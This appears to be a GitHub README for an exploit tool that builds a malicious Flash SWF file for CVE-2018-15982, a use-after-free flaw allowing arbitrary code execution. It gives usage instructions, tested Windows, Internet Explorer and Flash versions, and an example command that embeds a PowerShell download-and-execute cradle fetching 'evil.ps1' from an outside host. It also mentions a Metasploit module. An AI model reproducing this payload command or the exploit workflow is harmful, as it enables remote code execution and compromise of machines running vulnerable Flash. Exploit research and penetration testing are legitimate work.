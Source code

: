 # Adobe Flash CVE-2018-15982

This script creates a swf payload for CVE-2018-15982, which is based off of the PoC from https://github.com/smgorelik/Windows-RCE-exploits.  The vulnerability was discovered by Chenming Xu and Ed Miles of Gigamon ATR.

The vulnerability is a use-after-free flaw enabling arbitrary code-execution in Flash.  More information can be found in the links below.

* https://threatpost.com/adobe-patches-zero-day-vulnerability-in-flash-player/139629/
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-15982

Note: Currently only spraying one block, I noticed this after I created the script and haven't had the time to fix this yet

Usage:

```python create_swf.py <command> <output file name>```

Example Usage:

```python create_swf.py "powershell.exe IEX (iwr 'http://192.168.56.101/evil.ps1')" downloadtest.swf```
  


Tested on: 
* Windows 10 Enterprise 10.0.17134, Internet Explorer 11.285.17134.0
* Adobe Flash 31.0.0.153, 29.0.0.140


## Example


Create payload:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/create.png)


Executing payload:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/exec31.png)

Confirm execution:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/confirm31.png)

## Metasploit Module

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/metasploit-module.png)

